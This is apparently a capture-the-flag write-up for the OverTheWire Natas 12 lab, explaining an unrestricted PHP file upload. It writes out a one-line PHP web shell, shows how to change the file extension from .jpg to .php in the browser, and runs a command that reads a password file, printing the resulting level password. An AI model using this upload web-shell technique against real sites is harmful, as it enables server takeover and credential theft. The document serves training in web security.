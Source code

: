 # [Natas 12](http://natas12.natas.labs.overthewire.org/)

![1](https://github.com/GHAFRI/Writeups/blob/master/Web/OverTheWire/Natas/Natas12/1.png)

## Solution

If we check the source code we see
```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="wkmjb7q5ue.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```
As we keep refreshing the page, we still get `random` name for the `value="wkmjb7q5ue.jpg"` file.
If we have a look at the [Source code](http://natas12.natas.labs.overthewire.org/index-source.html), we see
```
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
```
We see that the file gets a random `path` from the function `makeRandomPath()` and `name` from `genRandomString()`.
Down we also see `<? print genRandomString(); ?>.jpg` which was also presented in `index.php` webpage. 
This is an LFI type of attack, for extra details check [trialofbits](https://vimeo.com/32509769).
A tpical PHP line to exploit: <? echo system(\" ls; \") ?> and hide it in a `.jpg`. 
To do that we use: `echo "string " > name.jpg`.
So, we use `echo "<? echo system(\" ls \"); ?>" > 1.jpg`.
Now we go back to the site and upload the image file.
Before we click on `Upload`, we `Inspect` on the image that we uploaded using `Dev Tools`.
We look back for `value="random_name.jpg"` and we change it to `value="random_name.php`.
We click `Enter` to make sure its changed.
Now `Upload`.
It gives us `The file upload/j31o6bx15x.php has been uploaded`, when we check that page we get this list
```
3fw5idg4y8.php
3kzfrrvgig.php
5mwyyz89cj.jpg
77smoe16do.php
9xpr4x28pp.jpg
bf0tmyncki.jpg
ccw3b8bcic.jpg
eowa7mjj39.php
j31o6bx15x.php
klpn4rtlu0.php
lj1edrky2p.jpg
mvlaf05fnt.jpg
o6ktlghv56.php
q2k5lew3pp.jpg
qvipmjgium.php
qvipmjgium.php
````
It seems the exploit worked. Those are probably `exploits` from other players to find the `password`. We can check them for a clue for the location or we can just use the same location we found in `Natas10`.
To do that, we create a new file with new code by `echo "<? echo system(\" cat /etc/natas_webpass/natas13 \"); ?>" > 2.jpg`.
This will display the Natas13 password for us.
Now we do the same steps like before and we check
```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
``` 
Finally, the passcode is `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.

